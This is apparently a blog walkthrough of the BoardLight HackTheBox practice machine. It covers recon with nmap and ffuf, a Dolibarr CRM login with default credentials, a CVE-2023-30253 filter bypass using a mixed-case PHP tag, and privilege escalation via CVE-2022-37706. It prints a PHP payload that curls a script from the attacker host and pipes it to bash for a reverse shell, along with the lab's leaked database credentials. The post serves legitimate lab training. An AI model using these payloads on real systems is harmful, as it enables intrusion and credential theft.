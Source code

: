 +++ 
draft = false
date = 2024-06-04T13:07:16+01:00
title = "BoardLight HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Subdomain Discovery","ffuf","Dollibarr","Find","Grep","CVE-2023-30253","CVE-2022-37706"]
categories = []
externalLink = ""
series = "HTB"]
+++

![image](Scr_25.png#centre)

[comment]: <> (Insertar imagen de la carátula de la máquina)


The BoardLight HTB machine is a medium difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

    - Grep / Find
    - Subdomain discovery with ffuf
    - CVE-2023-30253
    - CVE-2022-37706

## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.11 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](Scr.png)

It looks like ports 20 and 80 are open. Classic open ports for SSH and https. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80 10.10.11.11 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](Scr_1.png)

This is the page visible on port 80:

![image](Scr_2.png)

It doesn't appear to be anything interesting in this page. However, since we still dont know the hostname, we have some valuable information: the hostname might be board.htb, since there is an e-mail shown "info@board.htb".

Lets continue our enumeration, now trying to find existing subdomain. For this, we will use ffuf to fuzz for subdomains:

```sh
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -ic -t 200 -c -fs 15949,0
````
![image](Scr_3.png)

It is important to user the parameter -fs 15949, to filter out any false positives.

![image](Scr_5.png)

We have found a subdomain: crm.board.htb. We add it to /etc/hosts, and see what is there:

![image](Scr_6.png)

It looks like the dolibarr login page. 

## Initial access

After a quick search, we can find the default user/password for dolibarr, and we can log in.

![image](Scr_7.png)

![image](Scr_8.png)

Searching the web, there is an exploit for this version of dolibarr. It leverages the dynamic content interpretation of the webpages, allowing us to execute arbitrary commands. [Here](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main) are the complete instructions.

First, we create a new website, named test:

![image](Scr_9.png)

Then, we create a new page for the website:

![image](Scr_10.png)

And now, we can edit the HTML source and add our mallicious PHP code. 

![image](Scr_11.png)

The trick here is that we can bypass dollibar's protection against PHP code, by capitalizing our tag. Dolibarr blocks <?php> tags, but not <?Php> or <?pHP>... So we can now try to run a simple 2+2, to see if it interprets the code:

![image](Scr_12.png)

![image](Scr_13.png)

And it worked! 2+2=4.

Now, lets try to get a reverse shell. We can make a simple-hhtp-server, and serve a bash reverse shell script which will be curled and piped into bash and executed on the victim machine.

Here we set up the [simple-http-server](https://github.com/TheWaWaR/simple-http-server)

![image](Scr_15.png)

And we access the page to see if the shell.html is displayed properly.

![image](Scr_16.png)

Sweet! Now we just have to pipe it to the victim machine. This is the PHP payload:

```php
<?PHP system('curl http://10.10.14.86:8000/shell.html | bash');?>
```

![image](Scr_14.png)

Before clicking "save", be sure to have a netcat listener waiting for the reverse shell. And voilà, we have access to the user www-data.

![image](Scr_17.png)


## Lateral movement


Lets do some reconnaissance as user www-data. For this, we will be using linpeas, which can be downloaded from the attacker's machine via wget.

```sh
wget http://10.10.14.86:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Linpeas reports some interesting files:

![image](Scr_19.png)

By looking into the contents of /var/www/html/crm.board.htb/htdocs/conf, we fin the conf.php file, which contains DB_USER and DB_PASS. 

![image](Scr_18.png)

Linpeas also reported that another user, Larissa, has acces to a shell, so lets try the password on user larissa. Trying to log into ssh with user larissa and the password obtained earlier:

```sh
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

![image](Scr_22.png)

Another way to find DB_USER and DB_PASS is by using grep:

```sh
grep -arin 'DB_USER\|DB_PASSWORD' |awk -F':' '{print $1}' | sort | uniq -c
```

## Privilege escalation

By running Linpeas again, it reports some interesting SUID binaries:

![image](Scr_23.png)

This SUID binaries can also be found using find:

```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```


The binaries are from the enlightenment linux window manager. There is a CVE related to this window manager, so lets try the [PoC of CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
) to see if this version of enlightenment is vulnerable to LPE.

![image](Scr_24.png)


And just like that, we can now cat out the root flag and the machine is pwned.

## Conclusion

Hacking through the BoardLight HTB machine provides valuable insights into penetration testing techniques, including enumeration, vulnerability exploitation, and privilege escalation. By understanding these steps, aspiring ethical hackers like me can enhance their skills and contribute positively to the cybersecurity landscape.
